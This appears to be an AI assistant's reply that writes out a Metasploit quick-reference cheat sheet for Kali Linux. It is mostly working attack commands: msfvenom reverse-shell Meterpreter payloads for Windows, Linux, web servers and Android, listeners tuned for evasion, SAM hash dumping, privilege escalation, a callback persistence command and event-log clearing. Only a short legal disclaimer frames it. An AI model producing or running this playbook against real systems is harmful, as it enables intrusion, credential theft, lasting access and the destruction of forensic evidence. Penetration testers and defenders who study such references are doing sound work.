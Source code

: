 Here’s the updated note with commands using only `msfvenom` and `msfconsole` for Kali Linux, streamlined for clarity and focus:

```markdown
# Metasploit Framework Quick Reference (2025)

> **For authorized penetration testing only**  
> Always obtain written permission before testing any system.

---

## 1. Payload Generation with `msfvenom`

### Windows Payloads
```bash
# Staged (x64)
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=4444 -f exe > payload.exe

# Stageless (x86)
msfvenom -p windows/meterpreter_reverse_tcp LHOST=<IP> LPORT=4444 -f exe > payload_stageless.exe

# HTTPS Transport (evasion)
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<IP> LPORT=443 -f exe > payload_https.exe
```

### Linux Payloads
```bash
# x64
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=4444 -f elf > payload.elf

# x86
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=4444 -f elf > payload_x86.elf
```

### Web Payloads
```bash
# PHP
msfvenom -p php/meterpreter/reverse_tcp LHOST=<IP> LPORT=4444 -f raw > payload.php

# ASPX
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=4444 -f aspx > payload.aspx
```

### Android Payloads
```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=<IP> LPORT=4444 -f raw > payload.apk
```

---

## 2. Listener Configuration with `msfconsole`

### Basic TCP Listener
```bash
msfconsole -q
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <IP>
set LPORT 4444
set ExitOnSession false
exploit -j
```

### HTTPS Listener (Better Evasion)
```bash
set PAYLOAD windows/x64/meterpreter/reverse_https
set LPORT 443
exploit -j
```

---

## 3. Meterpreter Session Management

### Session Interaction
```bash
sessions -l          # List sessions
sessions -i 1        # Interact with session 1
background           # Background current session
```

### Common Commands
```bash
sysinfo             # System information
getuid              # Current user context
ps                  # List running processes
migrate <PID>       # Migrate to another process
hashdump            # Dump SAM hashes (Admin required)
```

---

## 4. Post-Exploitation

### Privilege Escalation (Windows)
```bash
use post/windows/escalate/getsystem
run
```

### Persistence (Windows)
```bash
run persistence -U -i 60 -p 443 -r <IP>
```

---

## 5. Cleanup

### Remove Artifacts
```bash
rm payload.exe
clearev  # Clear logs
```

### Kill Handlers
```bash
jobs -K
```

---

## Legal & Ethical Reminder
- **Always** operate within authorized scope.
- Document all actions for reporting.
- Avoid production systems unless explicitly permitted.
```

### Key Features:
1. **Focused on `msfvenom` and `msfconsole`**.
2. **Simplified for quick reference**.
3. **Includes essential commands for payloads, listeners, and post-exploitation**.
4. **Legal compliance emphasized**.

Let me know if you'd like any adjustments!